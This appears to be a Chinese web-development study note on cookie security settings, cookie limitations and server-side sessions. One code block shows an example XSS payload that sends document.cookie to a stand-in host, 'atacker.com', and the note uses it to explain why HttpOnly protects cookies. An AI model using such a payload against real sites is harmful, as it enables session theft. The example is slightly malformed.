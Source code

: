 Cookie这样设置：HttpOnly + SameSite + Secure + maxAge，就比较安全了

**Cookie缺点：**
* Cookie 体积过小，存储量不能超过 4kB。
* 只能储存字符串。
* Cookie 是不可跨域的： 每个 Cookie 都会绑定单一的域名，无法在别的域名下获取使用，一级域名和二级域名之间是允许共享使用的（靠的是 domain）。
* Cookie 易被窃取和篡改，不安全。因此不要存储敏感数据，如用户密码，账户余额等。使用 httpOnly 在一定程度上提高安全性。
* 影响性能。浏览器的每次请求都会携带 Cookie 数据，会带来额外的性能开销（尤其是在移动环境下）。因此，新的浏览器API已经允许开发者直接将 数据 存储到本地。
* 一个浏览器针对一个网站最多存 20 个Cookie（现在一般有50个）
* 移动端对 cookie、Session(基于cookie 实现) 的支持不是很好，一般采用的是 token


**XSS攻击：**
```JS
<script>window.open("atacker.com?cookie=" + document.cookie</script> 

// 当你访问这条帖子的内容时，浏览器就会执行 <script> 中的代码，导致你的 Cookie 被发送给攻击者，接着攻击者就可以利用你的 Cookie 登录论坛，然后为所欲为了
```
而当设置了 HttpOnly 后，ducoment.cookie 将获取不到 Cookie，攻击者的代码自然就无法生效了。

## 二、Session
Cookie是有些局限性的：存储在客户端，易被篡改、窃取；大小只有4KB，无法存储复杂状态。
Session解决了这2个问题：**服务器存储 “完整状态”，客户端仅存 “会话标识”**

* session 是另一种记录服务器和客户端**会话状态**的机制
* session 是基于 cookie 实现的，sessionId 存储在客户端浏览器的cookie 中,session 存储在服务器端。
* 客户端只需要存储 SessionID。具体映射的数据结构放在了服务端，因此跳出了仅仅浏览器 cookie 只可以存储 string 类型的限制。
<br/>

![Session](./icon/session.jpg)

